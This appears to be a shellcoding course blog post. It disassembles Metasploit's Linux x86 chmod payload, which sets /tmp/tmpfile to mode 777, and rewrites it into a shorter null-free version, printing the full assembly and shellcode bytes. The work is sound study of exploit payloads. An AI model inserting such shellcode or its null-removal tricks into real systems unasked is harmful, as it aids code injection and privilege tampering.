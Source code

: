 

# Analyze: Read File

# Create shellcode
```bash
msfvenom -p linux/x86/chmod -f c FILE=/tmp/tmpfile MODE=0777
```


# Analysis

## Disassemble w/ bash
```bash
echo -n "\x99\x6a\x0f\x58\x52\xe8\x0d\x00\x00\x00\x2f\x74\x6d\x70\x2f\x74\x6d\x70\x66\x69\x6c\x65\x00\x5b\x68\xff\x01\x00\x00\x59\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
```

## Disassembled Assembly

```assembly
00000000  99                cdq
00000001  6A0F              push byte +0xf
00000003  58                pop eax
00000004  52                push edx
00000005  E80D000000        call 0x17
0000000A  2F                das
0000000B  746D              jz 0x7a
0000000D  702F              jo 0x3e
0000000F  746D              jz 0x7e
00000011  7066              jo 0x79
00000013  696C65005B68FF01  imul ebp,[ebp+0x0],dword 0x1ff685b
0000001B  0000              add [eax],al
0000001D  59                pop ecx
0000001E  CD80              int 0x80
00000020  6A01              push byte +0x1
00000022  58                pop eax
00000023  CD80              int 0x80
```

Here I will dissect the assembly piece by piece, followed by a commented version of theh code in entirety.


## Disassembled (Cleaned and commented)

Here I have cleaned and commented the code to get a better understanding of what is happening.

```assembly
00000000  99                cdq             
00000001  6A0F              push byte +0xf      ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 15$"
                          
00000003  58                pop eax             ; int chmod(const char *pathname, mode_t mode);
00000004  52                push edx            ; 
00000005  E80D000000        call 0x17           ; jmp label1


0000000A  2F746D702F746D7066696C6500
; (ascii) /tmp/tmpfile

lebel1:
00000017  5B                pop ebx             ; ptr to: [string] /tmp/tmpfile
00000018  68FF010000        push dword 0x1ff    ; 
0000001D  59                pop ecx             ; ecx = 0x1ff - OCT = 777
0000001E  CD80              int 0x80            ; chmod("/tmp/tmpfile", 0x1ff)



00000020  6A01              push byte +0x1      
00000022  58                pop eax
00000023  CD80              int 0x80            ; exit()    
```

## Changes

The first change I made was to `cdq` and replaced it with an `xor ecx, ecx` to clear ecx's value that will be used later. I then `mul ecx` that will result in a 0 with a remainder of 0, thus clearing the `eax` and `edx` registers as well.

```assembly
; cdq
xor ecx, ecx				; zero out ebx
mul ecx             ; zero out eax, and edx 
```

I then replace the push/pop with a `mov al` since eax was cleared in the previous `mul` command.


```assembly
; push byte +0xf      ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 15$"             
; pop eax             ; int chmod(const char *pathname, mode_t mode);
mov al, 0xf
```

Then, instead of making a `call` instruction to push a pointer to the filename parameter to the stack, I will push the string to the stack directly. To do this, I will push `edx`, which was cleared in the previous `mul` statement and then push the string in reverse order. Then I move the stack pointer into `ebx` to be used as the parameter. 

```assembly
; pop ebx             ; ptr to: [string] /tmp/tmpfile
push edx
push 0x656c6966         ; "elif"
push 0x706d742f         ; "pmt/"
push 0x706d742f         ; "pmt/"
mov ebx, esp
```

Since `ecx` was cleared in the original `xor` statement in the shellcode, I will set it's lower 2 bytes to `0x1ff` with a single move instruction and not worry about pushing/poping from the stack.

```assembly
; push dword 0x1ff    ; 
; pop ecx             ; ecx = 0x1ff - OCT = 777
mov cx, 0x1ff       ; note: ecx was cleared in first xor of shellcode
```

I also remove the next push/pop and just `mov al, 0x1` for the exit statement as `eax` should be `0x0` if the `chmod()` was executed successfully.

```assembly
; push byte +0x1      
; pop eax
mov al, 0x1        ; eax should be 0x0 from chmod() return value
```



## Final code
```assembly
global _start

section .text
_start:
    ; cdq
    xor ecx, ecx				; zero out ebx
    mul ecx             ; zero out eax, and edx    

    ; push byte +0xf      ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 15$"             
    ; pop eax             ; int chmod(const char *pathname, mode_t mode);
    mov al, 0xf

    ; pop ebx             ; ptr to: [string] /tmp/tmpfile
    push edx
    push 0x656c6966         ; "elif"
    push 0x706d742f         ; "pmt/"
    push 0x706d742f         ; "pmt/"
    mov ebx, esp

    ; push dword 0x1ff    ; 
    ; pop ecx             ; ecx = 0x1ff - OCT = 777
    mov cx, 0x1ff       ; note: ecx was cleared in first xor of shellcode

    int 0x80            ; chmod("/tmp/tmpfile", 0x1ff)

    ; push byte +0x1      
    ; pop eax
    mov al , 0x1        ; eax should be 0x0 from chmod() return value

    int 0x80            ; exit() 
```

## Shellcode

```c
"\x31\xc9\xf7\xe1\xb0\x0f\x52\x68\x66\x69\x6c\x65\x68\x2f\x74\x6d\x70\x68\x2f\x74\x6d\x70\x89\xe3\x66\xb9\xff\x01\xcd\x80\xb0\x01\xcd\x80"
```

## Conclusion

Metasploit payload length is 37 bytes with nulls.

My payload length is 34 bytes without nulls.



# Certification Requirements

This blog post has been created for completing the requirements of the SecurityTube/PentesterAcademy [x86 Assembly Language and Shellcoding on Linux (SLAE)](https://www.pentesteracademy.com/course?id=3) certification:

Student ID: SLAE-alecjmaly



